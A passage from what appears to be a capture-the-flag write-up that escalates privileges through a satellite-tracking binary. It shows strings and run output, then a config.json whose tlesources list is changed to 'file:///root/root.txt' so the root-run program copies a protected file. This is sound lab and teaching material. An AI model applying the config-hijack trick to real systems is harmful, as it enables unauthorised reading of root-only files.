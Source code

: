 ```
jovian@jupiter:/usr/local/share/sattrack$ strings /usr/local/bin/sattrack | grep config
strings /usr/local/bin/sattrack | grep config
/tmp/config.json
tleroot not defined in config
updatePerdiod not defined in config
station not defined in config
name not defined in config
lat not defined in config
lon not defined in config
hgt not defined in config
mapfile not defined in config
texturefile not defined in config
tlefile not defined in config
su_lib_log_config
_GLOBAL__sub_I__Z6configB5cxx11
```

After moving the config.json file to /tmp, we are now able to execute /usr/local/bin/sattrack. We realize that this binary will attempt to obtain the files from the ```tlesources``` in the config file. 

```
jovian@jupiter:/usr/local/share/sattrack$ /usr/local/bin/sattrack
/usr/local/bin/sattrack
Satellite Tracking System
tleroot does not exist, creating it: /tmp/tle/
Get:0 http://celestrak.org/NORAD/elements/weather.txt
Could not resolve host: celestrak.org
Get:0 http://celestrak.org/NORAD/elements/noaa.txt
Could not resolve host: celestrak.org
Get:0 http://celestrak.org/NORAD/elements/gp.php?GROUP=starlink&FORMAT=tle
Could not resolve host: celestrak.org
Satellites loaded
No sats
```

Since we know that the binary will fetch files from a server, we can hijack the ```tlesources``` to make the binary fetch files from the local server instead by modifying the config.json file 

```
{
 "tleroot": "/tmp/tle/",
 "tlefile": "weather.txt",
 "mapfile": "/usr/local/share/sattrack/map.json",
 "texturefile": "/usr/local/share/sattrack/earth.png",

 "tlesources": [
  "file:///root/root.txt",
  "http://celestrak.org/NORAD/elements/noaa.txt",
  "http://celestrak.org/NORAD/elements/gp.php?GROUP=starlink&FORMAT=tle"
 ],

 "updatePerdiod": 1000,

 "station": {
  "name": "LORCA",
  "lat": 37.6725,
  "lon": -1.5863,
  "hgt": 335.0
 },

 "show": [
 ],

 "columns": [
```